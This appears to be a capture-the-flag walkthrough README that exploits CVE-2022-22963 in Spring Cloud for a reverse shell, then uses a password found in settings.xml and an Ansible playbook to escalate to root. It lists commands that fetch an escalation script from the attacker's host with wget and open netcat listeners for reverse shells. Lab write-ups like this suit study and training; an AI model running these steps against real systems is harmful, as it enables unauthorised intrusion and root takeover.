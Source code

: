 ## Intial Foothold
**CVE-2022-22963: Spring Cloud RCE Vulnerability**

[All about Vulnerability](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)

### Exploit

```
python3 exploit.py
```
**What does exploit.py do**
- Create a shell.sh file that contains a Python3 one-liner reverse shell.
- Create simple HTTP Server.
- Upload shell.sh to /tmp directory in the target machine using wget.
- Run netcat listener to catch the reverse shell connection.
- Run chmod +x evil.sh, run evil.sh and get reverse shell.
- Do not forget to change IP and Port in exploit.py.

---
## Privilege Escalation:
**SU to phil user using his password located in /home/frank/.m2/settings.xml and use Ansible playbook to ecalate to root**

[Ansible Playbook Exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

### Exploit

- Upload PrivEsc.py to target using wget and python Simple HTTP Server.
  - Run Simple HTTP Server on Attacker Machine.
    
    ```
    python3 http.server 8000
    ```
  - Download PriEsc.py on Target Machine.
    
    ```
    wget http://<Local_IP>:8000/PrivEsc.py
    ```
- Run netcat listener on Attacker Machine
    ```
    nc -nlvp 4444
    ```
- Run PrivEsc.py and wait for Root shell connection it may take a while.
    ```
    python3 PrivEsc.py
    ```

